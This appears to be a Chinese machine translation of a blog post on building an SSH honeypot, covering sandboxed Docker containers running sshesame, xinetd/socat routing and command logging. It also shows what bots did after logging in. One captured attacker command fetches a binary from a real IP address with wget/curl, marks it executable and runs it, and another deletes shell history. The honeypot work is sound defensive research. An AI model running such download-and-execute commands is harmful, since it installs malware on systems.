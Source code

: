 # 我如何允许“黑客”通过 ssh 进入我的服务器。

> 原文：<https://medium.com/hackernoon/how-i-allowed-hackers-to-ssh-into-my-server-8e59984a491b>

![](img/a0cc16e7b8fbea71dd9886470fddda51.png)

Sorry for this image!

在我以前的文章中([https://hackernoon . com/how-ive-captured-all-passwords-trying-to-ssh-into-my-server-d 26 a2 a 6263 EC](https://hackernoon.com/how-ive-captured-all-passwords-trying-to-ssh-into-my-server-d26a2a6263ec))我修改了 SSH，以便打印僵尸程序或“黑客”试图攻击我的服务器的密码。

我觉得下一步就是让他们进来，所以上周我就是这么做的。

# **免责声明:**

*   他们将登录到具有最小能力的容器中
*   他们不会得到 shell，他们会得到一个 shell 的模拟(sshesame)
*   他们尝试的任何密码都将有效(以获得所有 h4ck3rs)
*   这运行在一个普通的实例上，我将在这篇文章之后销毁它
*   如果您不想阅读所有的实现，可以在文章末尾找到输出。

## **第一步码头工人:**

![](img/a3f783a56576c0b58d1e9c24814af7d2.png)

Docker 是显而易见的选择，但我有一些担忧，从从容器运行的攻击触发某种资源枯竭(叉炸弹，文件号等)到上传，是的上传我担心人们上传错误的内容到我服务器上的容器。

我也不想让所有的机器人登录到同一个容器，我想给每个机器人一个容器

## **第二步使 Docker 不可用:**

![](img/7057ae8ed0b2ecbb27c97bc5d784fc73.png)

我将删除所有功能，然后添加我真正需要的功能:

```
docker run **--read-only** **--privileged=false** **--cap-drop all --cap-add SYS_CHROOT --cap-add SETGID --cap-add SETUID --cap-add CHOWN**  -dt bechampion/honey
```

我本来也可以限制内存的，但是我忘记了。

我用过的第二个东西是一个名为 sshesame 的项目，它是我派生的([https://github.com/bechampion/sshesame](https://github.com/bechampion/sshesame))，我做了一些修改。

基本上**ssh same**充当一个 **openssh** 服务器，模仿一个 shell，它让你进入，对于你运行的任何命令，它都不返回任何内容，例如:

![](img/e5305033e719ed5a8cc919fe5499f66c.png)

这是正在运行的服务器，你可以看到我的密码是“任何东西”，实际上一切都是这样的:

![](img/c4d900d0e3c05f1bec3d5fc2caa6d36d.png)

这就是交易，它允许你使用任何密码，你可以运行任何你想要的命令，它们不会返回任何东西。

最后，我想禁止从容器本身访问互联网以及进入主机，因此 iptables 和 sysctl 在这方面有所帮助:

```
echo 0 > /proc/sys/net/ipv4/ip_forward
iptables -A INPUT -i docker0 -p tcp --destination-port 22 -j DROP
```

## **步骤 3 Docker 太不可用:**

![](img/a1d97f8dc59ac0e02a7ab63e53da2085.png)

经过一个小测试，我意识到大多数机器人都在运行 **uname -a** 并在完全悲伤的情况下退出，所以我分叉了 sshesame 并添加了一些命令、motds 和 PS1 提示，看看([https://github . com/bechampion/sshesame/blob/master/channel/channel . go # L46](https://github.com/bechampion/sshesame/blob/master/channel/channel.go#L46))和其他地方。

## 给每个连接一个独特的容器:

![](img/0a959f6a84424825189ef980b2e386b8.png)

嗯，如果我使用一些正常的码头港口翻译，例如

```
docker run -dt -p 22:2222 image
```

这将把所有攻击者或机器人放在同一个容器中，但我不希望这样，我希望每个单独的机器人/攻击者都在自己的容器中。

所以 xinetd 和 socat 来帮忙了:

这就是 xinetd，**中服务的样子，记住要修改/etc/services 来匹配这个端口分配。**

因此，进入端口 22 的每个连接都将执行 honey.sh，honey.sh 看起来像:

这里最重要的是，我获得了容器 ip 并运行

```
exec /usr/bin/socat stdin tcp:${DIP}:2222,retry=60
```

这会将所有来自 xinetd 的流量发送到其本地端口中的相关容器，即 **2222**

## **第五步记录所有命令:**

![](img/426cb0f5679cbe877c8f1c28076acf9d.png)

在我遇到 sshesame 之前，我在想跟踪所有的容器或 auditd，auditd 会派上用场。老实说，我可以用以下命令记录所有的 execve 调用:

```
-D
-b 8192
-f 1
--backlog_wait_time 0
-a exit,always -F arch=b64 -S execve
```

我也设法从 strace 那里得到了类似的东西:

```
strace -ffffff -p 10521 -s 100000 #optional -e trace=execve
```

最终，我决定使用 sshesame 默认的 json 日志记录，它在容器中运行时是 stdout。它看起来像这样:

![](img/bf7d9fdeef61115a16cd7b737f98dede.png)

JSON 很棒。

## **第六步做一个 dockerfile，推上去:**

![](img/d9b462f557b854f591464ac3ee5bad79.png)

下一步是创建一个多阶段 docker 文件，该文件编译 sshesame 并将其复制到 alpine，如下所示

和

```
docker build . -t honey
```

## **这一切都可以在:**中找到

[](https://github.com/bechampion/honey) [## bechampion/蜂蜜

### 在 GitHub 上创建一个帐户，为蜂蜜开发做出贡献。

github.com](https://github.com/bechampion/honey) 

# **动作**:

我必须说，由于一些奇怪的原因，几天过去了，没有人登录，我最终会得到一个端口扫描，就是这样，但几天后，一些事情开始出现:

![](img/e22271ba2ec482fc0274b44561878a8b.png)

当我看到这个的时候，我开始认为**的名字**可能太明显了，我已经添加了我上面提到的修改。

## **几天后:**

有几天我没有看到任何有趣的东西，只是 unames 或/proc/cpuinfo …但后来事情开始出现了

## **例 1:**

![](img/7aaa4581e3609f5210ac8eac6f1148ae.png)

```
Command":"#!/bin/sh\nPATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\nwget [http://URL/ys53a\ncurl](http://104.223.213.133/ys53a\ncurl) -O [http://URL/ys53a\nchmod](http://104.223.213.133/ys53a\nchmod) +x ys53a\n./ys53a\n"
```

基本上下载一些东西，chmod 它并运行它，这些主机大多数会在几分钟后离线。

## **例二:**

![](img/9aeb42b9ad5c19f41e42115c4ac9a81f.png)

同样的事情真的，但这家伙是最小心的，删除他的 bash_history，例如或

```
mv /bin/wget /bin/good (which happens to be the crap he downloaded)
```

不需要太多的细节，他们下载的文件是 elf，串起来你会得到这样的东西:

![](img/875b93c6e95f069bf6ecd68b691eb8c6.png)

各种令人担忧的事情，insmods，cronjobs，url 请求和套接字..我运行了一些杀毒软件，它们似乎是用于 DDOS 的。

# **包装完毕:**

我希望这是一个说明你可以用 SSH 蜜罐得到什么东西的例子，公平地说，我期待一些更高级的东西，但最终却是这样..我粘贴了所有的要点，所以你可以在这里得到它:

# [](https://gist.github.com/anonymous/82757f28c8afcac4ead15684f23dcb75)****[](https://gist.github.com/anonymous/82757f28c8afcac4ead15684f23dcb75)****[**输出**](https://gist.github.com/anonymous/82757f28c8afcac4ead15684f23dcb75)********